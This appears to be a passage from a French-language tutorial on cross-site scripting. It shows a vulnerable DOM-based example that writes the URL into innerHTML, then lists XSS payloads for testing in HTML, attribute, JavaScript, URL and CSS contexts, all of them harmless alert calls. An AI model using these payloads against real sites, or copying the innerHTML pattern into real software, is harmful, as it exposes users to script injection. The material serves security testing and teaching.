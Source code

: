 ### DOM-based XSS
```javascript
// Code vulnérable côté client
var search = location.search.substring(1);
document.getElementById('result').innerHTML = "Résultats pour: " + search;

// Exploitation
http://site.com/page#<script>alert('XSS')</script>
http://site.com/page#<img src=x onerror=alert('XSS')>
```

## 🔍 Détection et Tests

### Payloads de détection basiques
```html
<!-- Tests simples -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)">
<details open ontoggle=alert(1)>

<!-- Tests avec événements -->
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
<textarea onfocus=alert(1) autofocus>
<keygen onfocus=alert(1) autofocus>

<!-- Tests sans parenthèses -->
<script>alert`1`</script>
<svg onload=alert`1`>
```

### Tests spécialisés par contexte
```html
<!-- Dans un attribut HTML -->
" onmouseover="alert(1)
' onmouseover='alert(1)
"><script>alert(1)</script>

<!-- Dans du JavaScript -->
'; alert(1); //
'; alert(1); /*

<!-- Dans une URL -->
javascript:alert(1)
data:text/html,<script>alert(1)</script>

<!-- Dans du CSS -->
<style>@import'javascript:alert(1)';</style>
<style>body{background:url("javascript:alert(1)")}</style>
```
